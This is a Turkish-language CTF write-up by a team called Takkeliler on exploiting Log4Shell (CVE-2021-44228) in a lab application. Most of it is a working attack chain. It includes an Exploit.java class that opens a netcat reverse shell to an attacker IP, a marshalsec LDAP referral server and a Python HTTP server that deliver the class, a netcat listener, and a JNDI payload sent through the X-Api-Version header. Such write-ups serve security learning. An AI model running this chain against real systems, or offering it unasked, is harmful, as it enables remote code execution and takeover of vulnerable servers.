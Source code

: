 ## CTF Raporu – Log4Shell (JNDI Injection) Saldırısı

**Takım Adı:** Takkeliler
**Yazar:** Ak Takkeli Burak
**Tarih:** 15.04.2025

---

###  Zafiyetin Adı / Kategorisi
**Log4Shell (CVE-2021-44228) – Uzak Kod Çalıştırma (RCE)**

---

###  Açıklama
Apache Log4j 2.6.1 sürümü, bilinen Log4Shell (JNDI Injection) açığına karşı savunmasızdır. Bu zafiyet sayesinde, hedef sistemde şu yöntemlerle uzaktan kod çalıştırma sağlanabilir:
- Uygulama, giriş verilerini loglarken Log4j kütüphanesini kullanıyorsa,
- JNDI üzerinden uzak LDAP sunuculara bağlantı sağlanabiliyorsa,
- Bu LDAP sunucular da hedef sistemin kod yürütmesine yol açacak öğeleri sunabiliyorsa.

Bu açık, sıkı sık uygulamalarda loglanan HTTP header bilgileri (User-Agent, Referer, vs.) üzerinden tetiklenebilir. Bu senaryoda, `X-Api-Version` headerı kullanılmıştır.

---

###  Saldırı Aşamaları

#### 1. Endpoint Keşfi
Fuzzing ile hedef uygulamadaki endpointler tespit edildi:

```bash
ffuf -u http://localhost:8080/FUZZ -w ./common.txt
```

Sonuç olarak `/api` ve `/systeminfo` endpoint'leri bulundu. `/systeminfo` endpoint'i sistem hakkında bilgi verirken, `/api` endpoint'i `X-Api-Version` header'larına duyarlıydı.

#### 2. Log4j Versiyonunun Tespiti

Hedef sistemde Log4j 2.6.1 kullanılıyordu. Bu versiyon, JNDI Injection'a karşı savunmasız olduğu için RCE için kullanıldı.

#### 3. Exploit.java Sınıfının Hazırlanması

```java
import java.io.IOException;
public class Exploit {
    static {
        try {
            String[] cmd = {"/bin/sh", "-c", "nc 192.168.157.1 4444 -e /bin/sh"};
            Runtime.getRuntime().exec(cmd);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

#### 4. HTTP Sunucusu Kurulumu

Exploit.class dosyasını sunmak için Python HTTP sunucusu kuruldu:

```bash
(base) burak@burak-ABRA-A7-V11-4:~/ctf$ python -m http.server 8888
```

#### 5. LDAP Sunucusu Kurulumu (Marshalsec)

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.168.245.59:8888/#Exploit"
```

LDAP sunucusu, hedef sistem tarafından istek geldiğinde, HTTP sunucusundan `Exploit.class` dosyasını indirip çalıştıracak şekilde ayarlandı.

#### 6. Reverse Shell Dinleme

Netcat ile 4444 portunda dinleme başlatıldı:

```bash
(base) burak@burak-ABRA-A7-V11-4:~$ nc -lvp 4444
```

#### 7. Postman ile Payload Gönderimi

Postman üzerinden HTTP isteği atıldı:

```
GET /api HTTP/1.1
Host: localhost:8080
X-Api-Version: ${jndi:ldap://192.168.245.59:1389/Exploit}
```

Bu istek, hedef sistemin LDAP sunucusuna bağlanmasını sağladı.

Hedef sistemden gelen bağlantı başarıyla alındı ve shell erişimi elde edildi. Komut çalıştırma ve sistem kontrolü sağlandı.


###  Sonuç
Bu adımlar sonucunda hedef sistemde bulunan Log4Shell (CVE-2021-44228) zafiyetinden faydalanılarak tam yetkili reverse shell erişimi sağlanmıştır. Log4j kütüphanesinin zafiyetli sürümü, LDAP ve HTTP sunucularla birlikte kullanılarak sistemin dışarıdan kod çalıştırması sağlanmıştır.

